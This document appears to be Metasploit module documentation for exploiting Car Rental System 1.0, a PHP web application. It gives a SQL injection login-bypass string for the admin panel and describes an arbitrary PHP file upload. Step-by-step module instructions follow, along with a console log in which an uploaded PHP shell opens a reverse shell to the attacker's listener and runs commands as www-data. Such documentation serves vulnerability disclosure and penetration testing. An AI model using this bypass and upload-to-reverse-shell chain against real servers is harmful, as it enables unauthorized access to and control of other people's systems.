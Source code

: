 ## Vulnerable Application

Car Rental System 1.0 is a web application that allows users to rent cars using an online portal. It was written using PHP and MySQL.

Vendor Homepage: https://www.sourcecodester.com/php/14544/car-rental-management-system-using-phpmysqli-source-code.html
Software Link: https://www.sourcecodester.com/download-code?nid=14544&title=Car+Rental+Management+System+using+PHP%2FMySQLi+with+Source+Code

to install, extract all files in a web directory, edit admin/db_connect.php, and create database following database/car_rental_db.sql

Opening the web page, we can login in /admin area using " ' OR 1=1 limit 1# " as username, and a random word as password; Giving "limit 1" we will select the first user: ADMIN

This software is also vulnerable for Arbitrary File Upload.

Vulnerable page: http://IP/Car_CMSHOME/admin/index.php?page=manage_car. Editing a Car record, you may upload a php file.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/car_rental_system`
3. Set the `RHOST`.
4. Set the `TARGETURI`.
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a reverse shell

**TARGETURI**
The path to the Car Rental System HOME directory.


## Scenarios

### Debian 10 running Apache2 and php7.3

```
msf6 exploit(multi/php/car_rental_system) > use exploit/multi/php/car_rental_system
[*] Using configured payload php/reverse_php
msf6 exploit(multi/php/car_rental_system) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/php/car_rental_system) > set TARGETURI /car_rental/
TARGETURI => /car_rental/
msf6 exploit(multi/php/car_rental_system) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/php/car_rental_system) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] Attempting Login
msf6 exploit(multi/php/car_rental_system) > [*] Cookie: PHPSESSID=uokk0ufj0ujbphrte03upmsej7;
[*] Creating new car
[*] Last Images inserted id=6
[*] index.php?page=manage_car&id=6
[*] assets/uploads/cars_img/1605195300_sh_ell.php
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.130:56876) at 2020-11-12 16:34:58 +0100
msf6 exploit(multi/php/car_rental_system) > 
msf6 exploit(multi/php/car_rental_system) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell php/php               192.168.0.114:4444 -> 192.168.0.130:56876 (192.168.0.130)

msf6 exploit(multi/php/car_rental_system) > sessions 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 6784e50e1781 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64 GNU/Linux

```
